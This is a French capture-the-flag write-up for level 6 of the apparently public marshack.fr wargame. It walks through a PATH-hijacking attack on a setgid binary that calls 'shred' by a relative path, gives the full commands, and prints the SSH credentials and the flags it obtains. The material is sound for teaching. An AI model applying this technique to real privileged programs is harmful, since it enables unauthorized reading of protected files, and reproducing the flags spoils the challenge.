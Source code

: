 # Write up : Wargames

### Level 6

Consigne :

```
Consignes lvl6 :<br>
Le but de cette étape est de lire le fichier '.passwd' via l’exécutable disponible dans votre répertoire courant.

Se connecter à l'adresse suivante : <br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<FONT COLOR="#ff0000">ssh -p 6666 challenge6@game1.marshack.fr</FONT> <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password : [flag obtenu dans l'épreuve précédente]
```

Connexion 

```bash
ssh -p 6666 challenge6@game1.marshack.fr
password: MARS{mMwAr48BXzwavqjItEYk7zNhTBcMGS1S}
```

Contenu de /home/challenge6

```bash
challenge6@fb0a879ee360:~$ ls -al
total 36
drwxr-x--- 1 root challenge6 4096 Jan 31 14:09 .
drwxr-xr-x 1 root root       4096 Jan 31 14:09 ..
-rw-r----- 1 root challenge7   39 Jan 30 10:22 .passwd
-rwxr-s--x 1 root challenge7 8376 Oct 22 14:50 getflag
-rw-r----- 1 root challenge6  123 Oct 22 14:50 getflag.c
```

Contenu du fichier  getflag.c

```C
challenge6@be9f0e178887:~$ cat getflag.c
#include <stdio.h>
#include <stdlib.h>

int             main(int ac, char **av)
{
  system("shred -vun 420 .passwd");
  return (0);
}
```

Vulnérabilité : Le binaire appelé par system a un chemin relatif.



Commandes pour :

- Création d'un dossier dans le répertoire :  test
- Copy de /bin/cat dans le répertoire /home/test
- Renommage de /home/test/cat en /home/test/shred
- Permission d'exécution (x) sur le binaire /home/test/shred

```bash
challenge6@be9f0e178887:~$ /bin/mkdir /tmp/test
challenge6@be9f0e178887:~$ cp /bin/cat /tmp/test
challenge6@be9f0e178887:~$ mv /tmp/test/cat /tmp/test/shred
challenge6@be9f0e178887:~$ chmod -R 755 /tmp/test
```

Modifier sa variable d' environnement PATH comme suit : 

```
PATH=/tmp/test
```

Exécution de /home/challenge6/getflag  

```
challenge6@be9f0e178887:~$ ./getflag

Solution : 
shred: 420: No such file or directory
     1	MARS{bpLMB4IxDzGAJ9kXpVyPVXlxp4u999Gu}

```


Résultat : MARS{bpLMB4IxDzGAJ9kXpVyPVXlxp4u999Gu}